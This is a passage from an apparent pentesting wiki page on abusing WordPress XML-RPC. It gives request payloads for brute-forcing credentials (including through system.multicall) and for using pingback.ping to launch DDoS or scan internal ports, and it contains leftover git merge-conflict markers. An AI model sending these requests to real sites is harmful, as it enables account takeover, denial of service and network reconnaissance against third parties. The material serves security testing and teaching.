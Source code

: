 #### Credentials Bruteforce

_**wp.getUserBlogs**_, _**wp.getCategories** _or_** metaWeblog.getUsersBlogs**_ are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

```markup
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

The message _"Incorrect username or password"_ inside a 200 code response should appear if the credentials aren't valid.

Also there is a **faster way **to brute-force credentials using **`system.multicall`** as you can try several credentials on the same request:

![](https://firebasestorage.googleapis.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L\_2uGJGU7AVNRcqRvEi%2Fuploads%2FFX0g2BLsdfdQnq1xXx3N%2Ffile.jpeg?alt=media)

#### DDoS or port scanning

If you can find the method _**pingback.ping**_ inside the list you can make the Wordpress send an arbitrary request to any host/port.\
This can be used to ask **thousands **of Wordpress **sites **to **access **one **location **(so a **DDoS **is caused in that location) or you can use it to make **Wordpress **lo **scan** some internal **network **(you can indicate any port).

```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

![](../../.gitbook/assets/1\_JaUYIZF8ZjDGGB7ocsZC-g.png)

<<<<<<< HEAD
If you get **faultCode** with **\*\*a value** greater **then** 0\*\* \(17\), it means the port is open.
=======
If you get **faultCode** with** **a value **greater **then **0 **(17), it means the port is open.
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

Take a look to the use of **`system.multicall`**in the previous section to learn how to abuse this method to cause DDoS.

### wp-cron.php DoS

